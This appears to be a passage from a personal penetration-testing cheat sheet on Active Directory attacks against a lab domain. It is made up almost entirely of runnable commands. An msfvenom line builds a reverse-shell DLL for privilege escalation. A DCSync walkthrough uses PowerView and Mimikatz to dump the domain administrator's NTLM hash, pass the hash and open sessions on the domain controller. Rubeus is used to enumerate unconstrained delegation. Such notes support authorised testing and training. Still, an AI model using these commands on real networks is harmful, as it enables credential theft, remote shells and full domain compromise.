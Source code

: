 ```
```
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$FIRST_WINDOWS_VICTIM LPORT=443 -f dll -o privesc.dll
```
#### 84 dcsync
>NEEDS LOCAL ADMIN USER ACCESS
Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
![[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\PowerView.ps1
```
```
Get-ForestGlobalCatalog
```
Here we need the DNS_DOMAIN_NAME values:
DC=pentesting,DC=local
Next, we need your user's SID:
```
Get-DomainUser -Name $USER
```
Copy the objectsid value == $SID
```
Get-ObjectAcl "DC=$NETBIOS_DOMAIN_NAME,DC=local" -ResolveGUIDS | ? {($_.ObjectAceType -like 'DS-Replication*') -and ($_.SecurityIdentifier -match '$SID')}
```
```
Import-Module .\Invoke-Mimikatz.ps1
```
Dump lsa for administrator user:
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:$NETBIOS_DOMAIN_NAME\administrator"'
```
Copy the NTLM hash value.
Pass the hash with mimikatz to escalate to administrator.
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:$NETBIOS_DOMAIN_NAME /ntlm:$HASH /run:powershell.exe"'
```
```
invoke-command -ComputerName $DNS_COMPUTER_NAME -ScriptBlock{whoami;hostname}
```
You should see you are Administrator of the dc host.
Enter a PSSession on that host:
```
Enter-PSSession -ComputerName $DNS_COMPUTER_NAME
```
#### 85 Unconstrained Delegation
>NEEDS LOCAL ADMIN USER ACCESS
Assuming you have PowerView.ps1 in temp/Tools directory.
```
cd %TEMP%/Tools
```
[[2._Powershell  Bypass#Execution bypass]]
```
Import-Module .\PowerView.ps1
```
Enumeration:
```
Get-DomainComputer -Unconstrained
```
```
.\Rubeus.exe monitor /interval:1
```
```
```